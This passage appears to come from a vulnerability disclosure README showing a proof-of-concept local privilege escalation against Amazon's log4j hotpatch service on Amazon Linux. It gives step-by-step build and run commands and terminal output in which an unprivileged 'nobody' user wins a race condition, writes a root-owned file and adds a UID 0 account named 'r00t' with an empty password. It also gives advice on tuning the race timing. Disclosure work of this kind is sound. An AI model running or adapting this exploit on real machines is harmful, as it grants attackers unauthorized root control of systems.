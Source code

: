 The POC will create a file at `/win` as root containing the output of the `id` command and will add a new user with UID=0 and an empty password.

Note that winning the race can be fiddly. There are several timing constants in the POC. Depending on the performance and load profile of the machine being exploited, these values may need to be tweaked (or an entirely different race strategy implemented) to be able to win the race.

## POC Demo

Spin up a t2.micro EC2 host running Amazon Linux. Install OpenJDK.

Show that OpenJDK is installed and the hotpatch service is running:

```plain
[ec2-user@ip-172-31-29-188 ~]$ sudo yum install java-1.8.0-openjdk
Loaded plugins: changelog, extras_suggestions, langpacks, priorities, update-motd
Package 1:java-1.8.0-openjdk-1.8.0.312.b07-1.amzn2.0.2.x86_64 already installed and latest version
Nothing to do

[ec2-user@ip-172-31-29-188 ~]$ ps -ef | grep hotpatch
root     18795     1  0 10:51 ?        00:00:00 /bin/bash /usr/bin/log4j-cve-2021-44228-hotpatch -w 1800 -m 10
ec2-user 20169  3358  0 10:54 pts/0    00:00:00 grep --color=auto hotpatch
```

Build the POC:

```plain
[ec2-user@ip-172-31-29-188 ~]$ sudo yum groupinstall "Development Tools"
[... SNIP ...]

[ec2-user@ip-172-31-29-188 ~]$ gcc -Wall -Wextra -Werror amazon-log4j-hotpatch-eop.c -o eop
```

Show that `/win` and the r00t user don't exist:

```plain
[ec2-user@ip-172-31-29-188 ~]$ cat /win
cat: /win: No such file or directory

[ec2-user@ip-172-31-29-188 ~]$ su - r00t
su: user r00t does not exist
```

Run the POC as the "nobody" user:

```plain
[ec2-user@ip-172-31-29-188 ~]$ time sudo -u nobody ./eop
Main loop: Spawning 32 workers
Main loop: Waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20480 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20481 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20479 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20482 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20483 waiting for /tmp/hotpatch.esc.go to appear
Worker pid=20484 waiting for /tmp/hotpatch.esc.go to appear

[... SNIP ...]

crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
crontab: no changes made to crontab
EoP successful. Check /win and enjoy r00t :)

real    1m15.439s
user    0m2.427s
```